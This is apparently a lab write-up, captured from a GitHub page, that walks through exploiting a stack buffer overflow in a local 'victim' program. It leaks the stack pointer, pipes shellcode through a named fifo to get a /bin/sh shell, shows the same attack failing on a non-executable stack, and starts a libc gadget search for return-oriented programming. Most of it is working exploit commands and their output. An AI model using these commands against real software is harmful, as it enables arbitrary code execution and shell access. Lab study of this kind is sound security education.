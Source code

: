 ```
$ ./victim
$ ps -o cmd,esp -C victim
./victim           32a3c125
$ printf %x\\n $((0x7fff32a3c125+88))
7fff32a3c17d
```
Then this creates a fifo (named file) that allows read or write access
```
$ mkfifo pip
$ cat pip | ./victim
0x7fffdc884950
What's your name?
World
Hello, ▒_H1▒▒;H1▒H1▒▒▒▒▒▒/bin/sh!
pip a.out  shell.c  shellcode  victim  victim.c
```
We then run in another terminal and used its stack pointer to inject code. 
It is just like the pip example above
```
$ sp=`ps --no-header -C victim -o esp`
$ a=`printf %016x $((0x7fff$sp+88)) | tac -r -s..`
$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ;
cat ) > pip
ls
pip a.out  shell.c  shellcode  victim  victim.c
```

## Executable space perversion
First we try to run the code without a NX disabler
```
$ sp=`ps --no-header -C victim -o esp`
$ a=`printf %016x $((0x7fff$sp+88)) | tac -r -s..`
What's your name?
World
Hello, ▒_H1▒▒;H1▒H1▒▒▒▒▒▒/bin/sh!
Segmentation fault (core dumped)
```
Then on another terminal we run the following:
```
$ sp=`ps --no-header -C victim -o esp`
$ a=`printf %016x $((0x7fff$sp+88)) | tac -r -s..`
$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ; cat ) > pip

ls
```
We were able to do the same thing as the previous example with jumping to the
stack pointer at the name buffer by offsetting the current random stackpointer.  
We then tried to run the code injected insde the name buffer, but we weren't able to execute them.

## Go go gadgets
In order to overcome the situation above we try to overwrite RET instead.  
We want to overwrite RET to the address of code that is actually executable.  
In order to pull it off we must be aware that SP increments by 8, and the RET points to SP  
So we must modify address on SP to the code we want to excute.
```
$ locate libc.so
/lib/x86_64-linux-gnu/libc.so.6
/usr/lib/x86_64-linux-gnu/libc.so
/var/tmp/mkinitramfs_yR2G7t/lib/x86_64-linux-gnu/libc.so.6
```
Then we find available gadgets, as this returns a long list it will not be displayed below:
```
$ objdump -d /lib/x86_64-linux-gnu/libc.so.6 | grep -B5 ret
```